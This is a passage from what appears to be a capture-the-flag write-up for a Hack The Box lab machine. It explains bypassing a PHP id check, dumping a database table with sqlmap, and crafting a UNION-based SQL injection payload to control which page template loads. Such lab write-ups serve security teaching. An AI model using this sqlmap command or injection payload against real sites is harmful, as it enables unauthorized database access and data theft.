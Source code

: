     </div>

    </div>

    All of this is to say that as long as my input starts with a number
    followed by a space, I can pass this check.

3.  `in_array(intval($_GET['id']),$valid_ids)` - Given what I showed in
    2., this isn't really a challenge. I just need to make sure my input
    starts with one of the three numbers in `$valid_id`.

#### Controlling id --\> tpl

I'll look at the first sql query:



    SELECT name FROM idname where id = $_GET['id']



I can use my SQLI to see what that table looks look:



    root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy -T idname --dump
    ...[snip]...
    +-----+-------------+----------+
    | id  | name        | disabled |
    +-----+-------------+----------+
    | 1   | main.php    | 1        |
    | 2   | about.php   | 1        |
    | 3   | contact.php | 1        |
    | 25  | main        | 0        |
    | 465 | about       | 0        |
    | 587 | contact     | 0        |
    +-----+-------------+----------+



So it's going to return a string, and the expected three values are
`main`, `about`, and `contact`. To see if I can control the output of
this function, I'll start with id 587, and see if I can get it to load
the about page (id 465). I'll want a query that looks like:



    SELECT name FROM idname where id = 587 and 1=2 UNION select "about"



So I'll submit:



    587' and 1=2 UNION select 'about'-- -
